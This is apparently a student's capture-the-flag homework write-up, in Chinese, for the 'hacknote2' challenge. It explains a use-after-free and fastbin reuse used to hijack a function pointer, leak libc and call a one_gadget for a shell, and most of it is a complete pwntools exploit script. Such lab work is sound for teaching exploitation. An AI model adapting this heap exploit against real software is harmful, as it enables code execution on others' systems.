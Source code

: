 # SoftwareSecurity Hw04 - hacknote2

這題利用程式free完之後沒有將 pointer 指回 null 的 bug 來進行利用

本題在add_note的時候，會使用 malloc 去要兩塊記憶體空間
分別大小為0x10 以及另外一塊使用者自定義的size

在第一塊0x10的空間前8byte是存取一個function pointer，會在之後可以使用到

因此，這邊我們可以利用fastbin的特性，先 add 兩筆 note (content size 符合 fastbin) 之後刪除他們

之後再增加一個content大小為0x10，這樣子就能控制到前面其中一筆print_note function pointer 以及 context 的pointer

這樣就可以leak出libc的位置
之後利用差不多的特性，將 print_note function pointer 寫成libc中的one_gadget 便能拿到Shell

以下為我的script

```python

#!/usr/bin/env python

from pwn import *

r = remote('csie.ctf.tw', 10139)
#r = process('./hacknote2')

read_offset = 0xf7220
read_got = 0x602040
print_note_context = 0x400886
binsh = 0x18cd17 
one_gadget_offset = 0xf0274 

def add_note(size, content):
    r.recvuntil(':')
    r.sendline('1')
    r.recvuntil(':')
    r.sendline(str(size))
    r.recvuntil(':')
    r.sendline(content)

def del_note(index):
    r.recvuntil(':')
    r.sendline('2')
    r.recvuntil(':')
    r.sendline(str(index))


def print_note(index):
    r.recvuntil(':')
    r.sendline('3')
    r.recvuntil(':')
    r.sendline(str(index))


add_note(0x30, "A"*0x8)
add_note(0x30, "A"*0x8)

del_note(0)
del_note(1)


add_note(0x10, p64(print_note_context) + p64(read_got))

print_note(0)
r.recvuntil(':')

libc = u64(r.recvuntil('\n')[:-1].ljust(8,'\x00')) - read_offset

del_note(2)
print "libc:", hex(libc)

raw_input('#')
add_note(0x10, p64(libc + one_gadget_offset)+ p64(0))
print_note(0)

r.interactive()

```